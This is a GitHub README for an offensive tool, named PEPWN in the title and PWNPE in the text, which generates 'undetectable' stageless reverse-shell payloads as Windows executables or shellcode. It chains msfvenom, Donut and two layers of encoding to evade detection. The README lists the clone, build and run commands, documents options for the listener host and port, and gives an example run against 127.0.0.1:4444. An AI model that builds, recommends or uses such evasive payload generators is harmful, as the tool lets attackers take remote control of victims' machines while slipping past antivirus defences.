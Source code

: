 # PEPWN
PWNPE is a multi chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


## Overview

- [x] generate a payload with msfvenom.
- [x] It uses the [DONUT](https://github.com/TheWover/donut/) project. That will convert the generated EXE payload and extract shellcode from it. It's just a project to facilitate extracting shellcodes from executable binaries
- [x] encodes it.
- [x] apply 2nd layer of encoding using [sgn](https://github.com/egebalci/sgn/).
- [x] transfer it into a shellcode format of use or create exe file that triggers that shellcode using syscalls.



## Installation

>Go to /root directory 

```
git clone https://github.com/0xx7/PEPWN.git
```
Once you download the project, build the dependencies using the following command, however make sure you are running as root:
```
./build.sh
```
Then, to run it with the manual/options add -H  
```
./wrapper -H
```
Example:

```
./wrapper.sh -f 1 -h 127.0.0.1 -p 4444
```

## Documentation

Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 -f : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 -t : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 -h : host/ip/domain of the listener
 
 -p : port of the listener
 
 -H : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


## How to use

https://youtu.be/SYriAv_FPAg



